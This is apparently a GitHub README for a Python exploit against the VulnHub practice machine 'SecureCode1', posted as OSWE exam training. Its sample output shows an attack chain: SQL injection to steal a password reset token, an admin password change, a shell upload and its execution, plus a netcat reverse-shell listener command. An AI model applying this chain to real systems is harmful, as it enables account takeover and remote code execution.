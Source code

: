 # SecureCode1 Exploit

Python exploit for the VulnHub OSWE practice box 'SecureCode1'

The box was fairly easy to exploit if you know your way around PHP code. I have uploaded the exploit for anybody that gets stuck. :-)

```
python3 ./exploit.py 192.168.1.167 Password123
[+] Don't forget to start your netcat listener: nc -nvlp 4444
[+] Requesting password reset token...
[+] Using SQLi to get the password reset token...
[+] Found password reset token: QXAmvO3pCJlJDTa
[+] Changing the admin password to Password123
[+] Logging in to the web app...
[+] Checking access...
[+] Permitted, will continue...
[+] Uploading malicious shell...
[+] Executing malicious shell...
```
